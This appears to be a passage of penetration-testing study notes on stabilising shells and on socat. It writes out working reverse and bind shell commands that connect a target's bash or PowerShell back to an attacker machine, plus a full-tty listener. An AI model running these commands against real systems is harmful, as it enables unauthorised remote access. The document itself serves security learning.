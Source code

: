 
*Note:*
	With any of the above techniques, it's useful to be able to change your terminal tty size. This is something that your terminal will do automatically when using a regular shell; however, it must be done manually in a reverse or bind shell if you want to use something like a text editor which overwrites everything on the screen.

First, open another terminal and run `stty -a`. This will give you a large stream of output. Note down the values for "rows" and columns:
![[Pasted image 20240817032330.png]]

Next, in your reverse/bind shell, type in: `stty rows <number>`  and `stty cols <number>`, filling in the numbers you got from running the command in your own terminal. This will change the registered width and height of the terminal, thus allowing programs such as text editors which rely on such information being accurate to correctly open.

## **Socat**
Socat is similar to netcat in some ways, but fundamentally different in many others. The easiest way to think about socat is as a connector between two points. This will essentially be a listening port and a file, or indeed, two listening ports.

- **_Reverse Shells_**
	Here's the syntax for a basic reverse shell listener in socat:  
	`socat TCP-L:<port> -`

On Windows we would use this command to connect back:
`socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes`

On a Linux target we would use the following command:
`socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"`

The "pipes" option is used to force powershell (or cmd.exe) to use Unix style standard input and output.

- **_Bind Shells_**
	We use this command on our attacking machine to connect to the waiting listener:
	`socat TCP:<TARGET-IP>:<TARGET-PORT> -`

On a Windows target we would use this command for our listener:
`socat TCP-L:<PORT> EXEC:powershell.exe,pipes`

On a Linux target we would use the following command:
`socat TCP-L:<PORT> EXEC:"bash -li"`

We use the "pipes" argument to interface between the Unix and Windows ways of handling input and output in a CLI environment.

### Fully stable Linux tty reverse shell
This will only work when the target is Linux, but is _significantly_ more stable. The following technique is perhaps one of its most useful applications. Here is the new listener syntax:

`socat TCP-L:<port> FILE:`tty`,raw,echo=0`

As usual, we're connecting two points together. In this case those points are a listening port, and a file. Specifically, we are passing in the current TTY as a file and setting the echo to be zero. This is approximately equivalent to using the Ctrl + Z, `stty raw -echo; fg` trick with a netcat shell -- with the added bonus of being immediately stable and hooking into a full tty.
